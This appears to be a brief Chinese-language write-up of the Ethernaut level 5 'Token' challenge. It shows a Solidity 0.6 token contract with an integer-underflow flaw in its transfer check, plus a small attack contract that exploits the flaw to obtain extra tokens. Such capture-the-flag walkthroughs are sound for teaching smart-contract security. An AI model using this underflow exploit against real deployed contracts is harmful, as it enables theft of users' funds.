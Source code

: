 ```yaml
---
title: ethernaut NO.5
tags: TeXt
---
```




首先来看合约代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}

```

**合约中本来有20个代币，要求获得1个或者更多**

<span style="color: red;">关键点</span>: 这个合约的solidity版本是0.6的，该版本没有设置整型溢出的检测，所以我们可以利用整型溢出来完成这道题；

以下是攻击合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface IToken {
    function balanceOf(address) external view returns (uint256);
    function transfer(address to ,uint256 value) external returns (bool);
}
contract Hcak{
    constructor (address _target){
        IToken(_target).transfer(msg.sender,1);
    }
}
```

需要做的是将该合约部署在需要攻击的合约地址中，然后调用IToken就可以查询合约的代币数量为21；

